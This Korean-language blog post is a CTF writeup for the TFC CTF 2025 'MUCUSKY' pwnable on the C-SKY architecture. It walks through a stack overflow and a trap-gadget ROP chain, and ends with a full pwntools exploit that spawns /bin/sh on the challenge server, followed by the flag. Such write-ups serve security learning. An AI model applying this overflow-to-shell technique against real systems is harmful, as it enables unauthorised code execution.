 ```yaml
---
title: TFC CTF 2025 Pwnable Writeup (MUCUSKY)
published: 2025-09-20 01:30:00 +09:00
description: "Pwnable Writeup"
tags: ["CTF", "Pwnable", "Writeup"]
image: ./title.png

category: CTF
draft: false
---
```


# TFC CTF 2025

이번 글은 얼마전 열린 CTF에 대한 포너블 라이트업이 되겠네요. 밀린 Writeup이 많긴한데 TFC CTF를 시작으로 밀린 것들을 모두 올려볼 예정입니당.

# Intro

<p align="center"><img src="/assets/img/TFC-CTF-2025/mucusky.png"></p>

`MUCUSKY`는 `C-SKY` 아키텍처에서 공격을 수행하는 문제였습니다. 생소한 아키텍처긴 했지만, 바이너리 자체는 공부해보면 금방 풀 수 있었습니다.

# C-SKY

`C-SKY`는 중국에서 개발한 CPU 아키텍처 중 하나입니다. 정보가 그~렇게 많지는 않은데, 일단 <a href="https://github.com/c-sky">`github repo`</a>가 존재하기 때문에 필요한 것들은 갖춘 편이었습니다. 바이너리를 익스플로잇하는데에 당장에 필요했던 건 해당 아키텍처에 대한 명령셋 이해정도?면 충분했습니다.

# Analysis (Static, Dynamic)

파일은 대충 요런 파일들이 제공됩니다.
<p align="center"><img src="/assets/img/TFC-CTF-2025/files.png"></p>

바이너리 정보를 확인해보면 32bit C-SKY 아키텍처고 `static` 빌드 상태 및 심볼이 빠져있다는 것을 알 수 있습니다.
<p align="center"><img src="/assets/img/TFC-CTF-2025/bin_info.png"></p>

한번 실행시켜보면 문자열을 입력받고 뭔가 오염시킬 수 있을 듯한 뉘앙스를 풍기면서 터져버립니다.
<p align="center"><img src="/assets/img/TFC-CTF-2025/bang.png"></p>

이제 디컴파일을 위해 `ghidra`를 사용해줍니다. 아키텍처가 워낙 특이하다보니 `ghidra`의 `extension`을 활용해줍시다. 
<p align="center"><img src="/assets/img/TFC-CTF-2025/ghidra_csky.png"></p>

까보면 입력 부분에서 오버플로우가 발생한다는 것을 알 수 있습니다.
<p align="center"><img src="/assets/img/TFC-CTF-2025/ghidra_analysis1.png"></p>

`gdb`로 확인해보면 리턴 값이 담길 `r15`와 `r8` 역시 오염된다는 사실을 알 수 있습니다.
<p align="center"><img src="/assets/img/TFC-CTF-2025/csky-gdb1.png"></p>

# Exploit

이제 위에서의 간단한 오버플로우로 리턴 주소 및 레지스터 정보가 오염된다는 사실을 이용하면 됩니다. 이때, static 바이너리기 때문에 적절한 가젯을 바이너리 내부에서 찾아야하는데, 마침 `c-sky`에서 시스템 콜에 해당하는 `trap` 명령이 프로그램의 입력과 출력을 위해 존재합니다.

`0x818e`에서 `rts` 명령어로 점프하는 시점에서 `r8`과 `r15` 조작이 가능합니다. 이를 이용해서 시스템 콜을 수행하려면 다음과 같은 구간을 활용하면 됩니다.

<p align="center"><img src="/assets/img/TFC-CTF-2025/ghidra_analysis2.png"></p>

현재 페이로드가 담긴 스택 주소를 알고있다면, 해당 부분에서 역참조되는 `r8`의 주소를 조작해서 스택에 존재하는 값을 원하는 레지스터로 밀어넣을 수 있습니다. 결과적으로 원하는 인자를 레지스터로 설정해서 시스템 콜을 수행할 수 있게됩니다.

스택에 페이로드를 다음과 같이 구성해줍니다.
<p align="center"><img src="/assets/img/TFC-CTF-2025/payload.png"></p>

 `0x8250`의 `trap`으로 `/bin/sh`가 실행됩니다. 최종 공격 코드는 다음과 같습니다.

```python
from pwn import *

# ncat --ssl mucusuki-c9b67a4d63fe2205.challs.tfcctf.com 1337
p = remote('mucusuki-c9b67a4d63fe2205.challs.tfcctf.com', 1337, ssl=True)

STACK = 0x3ffffecc + 0x10

payload = p32(0x0)
payload += p32(STACK+8)
payload += p32(STACK)
payload += p32(221+21) # 221
payload += b'/bin/sh\x00'
payload += p32(STACK)
payload += b'\x00'*72
payload += p32(STACK) # STACK
payload += p32(0x822e) # RET

import time
time.sleep(5)
p.send(payload)

p.interactive()
```

`TFCCTF{t0_beat_mcsky_y0u_had_to_csky_now_go_after_cromozominus}`

끝!